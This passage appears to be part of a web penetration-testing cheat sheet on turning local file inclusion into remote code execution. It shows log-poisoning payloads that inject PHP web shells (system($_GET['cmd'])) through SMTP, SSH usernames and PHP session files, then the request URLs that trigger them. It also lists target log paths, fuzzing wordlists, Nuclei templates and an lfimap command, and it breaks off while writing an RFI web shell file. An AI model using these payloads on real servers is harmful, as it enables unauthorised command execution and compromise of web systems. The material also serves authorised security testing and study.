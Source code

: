 ```
  
-> SMTP  
```
telnet ip 25
MAIL FROM: email@gmail.com
RCPT TO: <?php system($_GET[‘cmd’]); ?>  
http://ip/index.php?file=/var/mail/mail.log&cmd=id
```  
  
-> SSH  
```
ssh '<?php system($_GET["cmd"]);?>'@ip  
http://ip/index.php?file=/var/log/auth.log&cmd=id
```  

-> PHP session  
```
http://ip/index.php?file=<?php system($_GET["cmd"]);?>  
http://ip/index.php?file=/var/lib/php/sessions/sess_<your_session>&cmd=id
```
  
-> Other Paths  
```
/var/log/nginx/access.log  
/var/log/sshd.log  
/var/log/vsftpd.log  
/proc/self/fd/0-50  
```

### Template LFI and directory traversal - Nuclei
https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/fuzzing/linux-lfi-fuzzing.yaml
https://raw.githubusercontent.com/CharanRayudu/Custom-Nuclei-Templates/main/dir-traversal.yaml

### Wordlists
-> burp-parameter-names.txt - Wordlist for parameter fuzzing  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt  
	
-> Wordlist LFI - Linux  
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
	
-> Wordlist LFI - Windows  
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt 
	
-> bypass_lfi.txt  
https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/wordlists/lfi_bypass.txt  
	
-> poisoning.txt  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/posoning.txt  

### Tool
```
python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a
```
https://github.com/hansmach1ne/lfimap  

## Remote File Inclusion (RFI)
### RFI to Webshell with null byte for image extension bypass
```
echo "<?php echo shell_exec($_GET['cmd']); ?>" > evil.txt